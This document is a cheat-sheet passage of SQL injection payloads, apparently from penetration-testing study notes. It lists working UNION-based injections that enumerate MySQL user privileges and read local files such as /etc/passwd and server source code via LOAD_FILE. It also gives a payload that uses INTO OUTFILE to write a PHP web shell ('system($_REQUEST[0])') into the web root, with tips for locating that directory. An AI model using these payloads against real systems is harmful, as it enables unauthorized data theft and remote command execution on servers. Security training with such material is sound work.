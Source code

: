 ### Privileges

| Payload | Description |
|---------|-------------|
| `cn' UNION SELECT 1, user(), 3, 4-- -` or `cn' UNION SELECT 1, user, 3, 4 from mysql.user-- -` | Find current user |
| `cn' UNION SELECT 1, super_priv, 3, 4 FROM mysql.user WHERE user="root"-- -` | Find if "root" user has admin privileges |
| `cn' UNION SELECT 1, grantee, privilege_type, is_grantable FROM information_schema.user_privileges WHERE grantee="'root'@'localhost'"-- -` | Show all of the "root" user's privileges, "FILE" privilege allows the user to read files |
| `cn' UNION SELECT 1, variable_name, variable_value, 4 FROM information_schema.global_variables where variable_name="secure_file_priv"-- -` | Find which directories can be accessed through MySQL. If "variable_value" is empty then we can read/write files to any location |

#### Write File Privileges

To be able to write files to the back-end server using a MySQL database, we require three things:

- User with FILE privilege enabled
- MySQL global secure_file_priv variable not enabled
- Write access to the location we want to write to on the back-end server

### File Injection

| Payload | Description |
|---------|-------------|
| `cn' UNION SELECT 1, LOAD_FILE("/etc/passwd"), 3, 4-- -` | Read local file |
| `cn' UNION SELECT 1, LOAD_FILE("/var/www/html/search.php"), 3, 4-- -` | Another read local file example, useful to see how backend queries are handled |
| `cn' UNION select 1,'file written successfully!',3,4 INTO OUTFILE '/var/www/html/proof.txt'-- -` | Write a string to a local file |
| `cn' UNION SELECT "",'<?php system($_REQUEST[0]); ?>', "", "" INTO OUTFILE '/var/www/html/shell.php'-- -` | Write a web shell into the base web directory |

**Note:** Web shells must be written to the base web directory for the web server (i.e. web root). Use load_file to read the server configuration at /etc/apache2/apache2.conf, /etc/nginx/nginx.conf or %WinDir%\System32\Inetsrv\Config\ApplicationHost.config are a few examples. Could also run a fuzzing scan and try to write files to different possible web roots, using [Linux wordlist](https://github.com/danielmiessler/SecLists/blob/master/Discovery/Web-Content/default-web-root-directory-linux.txt) or [Windows wordlist](https://github.com/danielmiessler/SecLists/blob/master/Discovery/Web-Content/default-web-root-directory-windows.txt). We can also use server errors to possibly display the web root.